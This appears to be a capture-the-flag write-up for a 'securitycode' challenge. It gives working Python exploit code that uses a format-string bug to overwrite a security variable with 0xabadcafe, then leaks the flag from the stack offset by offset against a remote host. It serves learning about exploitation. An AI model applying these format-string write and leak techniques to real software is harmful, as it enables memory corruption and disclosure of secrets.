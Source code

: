 Just refer this pdf and you will get it <a href="https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf">Format String (Click Here)</a>

```python
seccode = 0x0804c03c

def pad(s):
    return s+b"x"*(1023-len(s))

payload = b""
payload += p32(seccode)
payload += p32(seccode+1)
payload += p32(seccode+2)
payload += p32(seccode+3)
payload += b"%238x%15$hhn"
payload += b"%204x%16$hhn"
payload += b"%227x%17$hhn"
payload += b"%254x%18$hhn"

exp = pad(payload)
```
This will set the <span style="color:red">`security_code`</span> to <span style="color:red">`0xabadcafe`</span> and will call the function <span style="color:red">`auth_admin`</span>

Now the <span style="color:red">`auth_admin`</span> will open the flag and ask for a password and simply prints out the password nothin else BUTTTTTTT!! if the password is also reflecting that means YEP you guessed it its format string vulnerable too
we know our flag will also gonna be on stack we can leak it out.

BUTTT heres a twist the password field accepts only 5 characters then how we can leak flag if we can only leak first two values right <span style="color:red">`%p %p`</span> thats where <span style="color:red">`$`</span> comes in handy.

The <span style="color:red">`$`</span> allows us access any value on stack for example if we wants to access the 4th value on stack we can do something like this <span style="color:red">`%4$x`</span>

Our flag starts at the 7th offset so thats it we have to execute our exploit multiple times and increment the offset value and we will get the entire flag <font color="red">easy_peasy</font>

```python
def leak_flag(n):
    flag = b""
    
    while b"}" not in flag:
        if isremote:
            p = remote("185.235.41.205",7040)
        else:
            p = process("./securitycode")
        
        p.recv()
        p.sendline("A")
        p.recv()
        p.send(exp)
        modifier = "%"+str(n)+"$p"
        p.sendline(modifier)
        p.recvuntil(b"password is ")
        flag += p64(int(p.recv(10),16))
        n+=1

    return flag.replace(b'\x00',b'')

flag = leak_flag(7)
print(flag)
```
